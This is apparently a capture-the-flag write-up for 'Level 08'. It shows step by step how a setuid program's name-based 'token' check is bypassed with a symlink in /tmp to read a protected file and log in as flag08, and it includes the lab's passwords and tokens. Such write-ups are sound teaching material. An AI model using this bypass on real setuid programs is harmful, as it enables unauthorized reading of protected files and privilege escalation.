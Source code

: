 # Level 08

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level08@192.168.1.32
	Password: fiumuikeil55xe9cu4dood66h
	```

1. Check files.

	```sh
	> ls -l
	total 16
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```

1. Let's run it.

	```sh
	> ./level08
	./level08 [file to read]
	```

1. Stupid enough, just give it the only other file we were provided.

	```sh
	> ./level08 token
	You may not access 'token'

	> cat token
	cat: token: Permission denied
	```

1. Fine, challenge accepted! Try anything else.

	```sh
	> FILE=/tmp/exploit08 && echo "exploitme" > $FILE && ./level08 $FILE
	exploitme
	```

1. Ok, so looks like if the file can be accessed, it just `print` it's content. Let's do a quick `strings` check.

	```sh
	> strings level08
	...
	printf
	strstr
	read
	open
	...
	write
	...
	token
	You may not access '%s'
	Unable to open %s
	Unable to read fd %d
	...
	```

1. Like on previous level, we notice few well known C functions.

	```
	- `printf` is used to print a formatted text into standard output
	- `strstr` is used to locate a substring
	- `read` is used to read content from a file descriptor
	- `write` is used to write content to a file descriptor
	- `open` is used to open a file
	```

1. Wait a minute... We have `token` in our list, which is the name of our target file, and `strstr` which is used to locate a substring... Let's try our previous test, but using `token` in the name.

	```sh
	> FILE=/tmp/exploit08_token && echo "exploitme" > $FILE && ./level08 $FILE
	You may not access '/tmp/exploit08_token'
	```

1. Ok, something ain't right here. Adding `token` to our file name revoked our access to it ? Are they seriously doing a simple check on file's name ?

	```sh
	# Notice the removed "n" at the end of FILE
	> FILE=/tmp/exploit08_toke && echo "exploitme" > $FILE && ./level08 $FILE
	exploitme
	```

1. Guess it's that simple... Now, since we want to access `token`, and we don't have any rights on it, maybe a simple symlink will do the trick.

	```sh
	> LINK=/tmp/exploit08 && ln -sf ./token $LINK && ./level08 $LINK
	level08: Unable to open /tmp/exploit08: No such file or directory

	> ls -l /tmp/exploit08
	lrwxrwxrwx 1 level08 level08 5 Aug 27 23:24 /tmp/exploit08 -> token
	```

1. Fail. Forgot to pass an absolute path for `token`.

	```sh
	> LINK=/tmp/exploit08 && ln -sf $PWD/token $LINK && ./level08 $LINK
	quif5eloekouj29ke0vouxean
	```

1. Insane, we did it. Get the flag.

	```sh
	> su flag08
	Password: quif5eloekouj29ke0vouxean
	Don't forget to launch getflag !

	> getflag
	Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
	```

## Documentation

- Function: [printf](https://man7.org/linux/man-pages/man3/printf.3.html)
- Function: [strstr](https://man7.org/linux/man-pages/man3/strstr.3.html)
- Function: [read](https://man7.org/linux/man-pages/man2/read.2.html)
- Function: [write](https://man7.org/linux/man-pages/man2/write.2.html)
- Function: [open](https://man7.org/linux/man-pages/man2/open.2.html)
